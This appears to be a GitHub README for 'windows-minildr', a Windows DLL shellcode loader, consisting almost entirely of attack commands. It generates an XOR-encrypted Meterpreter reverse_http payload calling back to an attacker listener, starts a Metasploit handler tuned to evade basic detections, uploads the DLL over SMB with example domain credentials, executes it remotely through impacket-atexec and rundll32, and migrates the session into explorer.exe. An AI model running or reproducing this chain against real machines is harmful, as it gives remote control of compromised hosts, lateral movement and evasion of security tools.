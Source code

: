 # windows-minildr

Generate payload.

~~~ bash
echo -n secret > ./key.bin
msfvenom --payload windows/x64/meterpreter/reverse_http --encrypt xor --encrypt-key "$(< ./key.bin)" --format raw --out ./buf.bin LHOST=192.168.178.42 LPORT=1337
~~~

Compile loader.

~~~ bash
x86_64-w64-mingw32-g++ -m64 -Wall -Wextra -std=c++20 -lstdc++ -static -Os -s -shared -o ./minildr.dll ./minildr.cpp
~~~

Start listener and evade basic detections when using Meterpreter ([source](https://twitter.com/lpha3ch0/status/1630213398397874178)).

~~~ bash
msfconsole -q -x 'use exploit/multi/handler;
set LHOST 192.168.178.42;
set LPORT 1337;
set PAYLOAD windows/x64/meterpreter/reverse_http;
set EnableStageEncoding true;
set StageEncoder x64/zutto_dekiru;
set AutoLoadStdapi false;
run'
~~~

Execute loader.

~~~ bash
impacket-smbclient -file /dev/stdin corp.com/jdoeadm:'passw0rd'@ws01.corp.com << 'EOF'
use c$
cd windows
put minildr.dll
ls
EOF
impacket-atexec -silentcommand corp.com/jdoeadm:'passw0rd'@ws01.corp.com 'rundll32.exe C:\Windows\minildr.dll,DllInstall'
~~~

After you received the connection run `load stdapi` in the Meterpreter shell.

When your shell terminates shortly after you receive the connection run `migrate -N explorer.exe` in the Meterpreter shell or `set AutoRunScript post/windows/manage/migrate` on the handler.
